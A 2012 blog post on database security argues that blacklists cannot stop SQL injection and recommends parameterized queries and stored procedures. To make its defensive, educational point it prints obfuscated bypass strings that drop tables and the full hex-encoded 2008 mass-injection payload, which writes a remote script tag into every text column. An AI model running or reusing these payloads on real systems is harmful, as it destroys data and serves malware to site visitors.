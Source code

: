 ```yaml
---
title: Please don’t use blacklists, use parameterized queries or stored procs instead
author: SQLDenis
type: post
date: 2012-04-05T10:55:00+00:00
excerpt: "Every now and then you will hear how some site will use a blacklist to 'protect' themselves against sql injection. Using a blacklist is very foolish because you can't ever think of all the different ways that the bad guys will try to bypass your little&hellip;"
url: /index.php/datamgmt/datadesign/please-don-t-use-blacklists/
views:
  - 13977
rp4wp_auto_linked:
  - 1
categories:
  - Data Modelling and Design
  - Database Programming
  - IBM DB2
  - Microsoft SQL Server
  - MySQL
tags:
  - best practices
  - security
  - sql injection

---
```

Every now and then you will hear how some site will use a blacklist to &#8216;protect&#8217; themselves against sql injection. Using a blacklist is very foolish because you can&#8217;t ever think of all the different ways that the bad guys will try to bypass your little list.
  
Let&#8217;s say you have DROP and DROP TABLE in your list.

What about these two

<pre>PRINT REVERSE('tset ELBAT PORD')
PRINT convert(VARCHAR(100),0x44524F50205441424C4520746573740000000000)</pre>

Change PRINT to EXEC() and both will result in DROP TABLE Test

Remember this one?

<pre>DECLARE @S VARCHAR(4000);SET @S=CAST(0x4445434C415245204054205641524348415228323535292C40432056415243484152283235
3529204445434C415245205461626C655F437572736F7220435552534F5220464F522053454C45435420
612E6E616D652C622E6E616D652046524F4D207379736F626A6563747320612C737973636F6C756D6E73
206220574845524520612E69643D622E696420414E4420612E78747970653D27752720414E442028622E
78747970653D3939204F5220622E78747970653D3335204F5220622E78747970653D323331204F522062
2E78747970653D31363729204F50454E205461626C655F437572736F72204645544348204E4558542046
524F4D205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F
5354415455533D302920424547494E20455845432827555044415445205B272B40542B275D2053455420
5B272B40432B275D3D525452494D28434F4E5645525428564152434841522834303030292C5B272B4043
2B275D29292B27273C736372697074207372633D687474703A2F2F7777772E63686B626E722E636F6D2F
622E6A733E3C2F7363726970743E27272729204645544348204E4558542046524F4D205461626C655F43
7572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445
414C4C4F43415445205461626C655F437572736F7220 AS VARCHAR(4000));print @S;</pre>

That becomes this

<pre>DECLARE @T VARCHAR(255),@C VARCHAR(255) 
DECLARE Table_Cursor CURSOR FOR SELECT a.name,b.name 
FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) 
OPEN Table_Cursor 
	FETCH NEXT FROM Table_Cursor INTO @T,@C 
	WHILE(@@FETCH_STATUS=0) 
	BEGIN 
--I changed EXEC to PRINT, just in case you are foolish enough to run this
		PRINT('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''<script src=http://SomeFakeSite&gt;</script&gt;''') 
		FETCH NEXT FROM Table_Cursor INTO @T,@C 
	END 
CLOSE Table_Cursor DEALLOCATE Table_Cursor </pre>

That infected millions of pages in 2008, there are still variants of this one today. A blacklist won&#8217;t help you in this case.

You can also protect yourself against this attack by denying SELECT permissions on the sysobjects table, your website user should not have access to these tables in general. If you use stored procedures you can just give access to the stored procedures and nothing else.

Every web framework today offers a way to use parameterized queries and or stored procedures. There is really no excuse to fall victim to a SQL injection attack these days. 

Even using an ORM like Hibernate or Entity Framework is protected against SQL Injection because it use sp_executesql with proper parameters behind the scenes.

If you do use stored procedures, you might still have a problem if you are using dynamic SQL inside the proc with EXEC and concatenation instead of sp_executesql with proper parameters

So why do people start out by using code that is prone to SQL injection? I think there are two parts to this. 

  1. It is easier to debug and see what is contained in the string by doing a debug.write/response.write now you can see exactly what is being sent to the DB
  2. There are still books/online examples around that show code that concatenate user input with SQL

Whenever I see code like this when a person asks for help, I immediately tell that person his code is vulnerable to a SQL injection attack, it is my duty to alert this person, it is yours too, we need to educate these people